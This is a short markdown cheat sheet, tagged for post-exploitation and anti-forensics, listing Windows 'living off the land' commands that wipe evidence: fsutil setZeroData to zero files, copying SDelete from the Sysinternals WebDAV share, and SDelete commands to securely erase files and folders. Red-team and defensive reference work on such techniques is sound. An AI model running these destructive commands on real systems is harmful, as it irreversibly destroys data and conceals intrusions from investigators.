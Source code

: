```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - anti-forensics
  - living-off-the-land
  - T1070-004
  - windows
---
```

# Living off the Land

## 01 - Command Prompt

```
C:\> fsutil.exe file setZeroData offset=0 length=9999999999 [<drive_letter>:\]path\to\file
```

## 02 - Sysinternals

Copy the program from the sysinternals WebDAV share.

```
C:\> net.exe use z: \\live.sysinternals.com\tools

copy z:\SDelete64.exe .

net.exe use z: /delete
```

Accept EULA

```
C:\> SDelete64.exe -accepteula
```

Delete folder.

```
C:\> SDelete64.exe -s -z [<drive_letter>:\]folder\
```

Delete file.

```
C:\> SDelete64.exe -p 50 [<drive_letter>:\]path\to\file.txt
```

---
## References

- [LOLBAS: fsutil](https://lolbas-project.github.io/lolbas/Binaries/Fsutil/)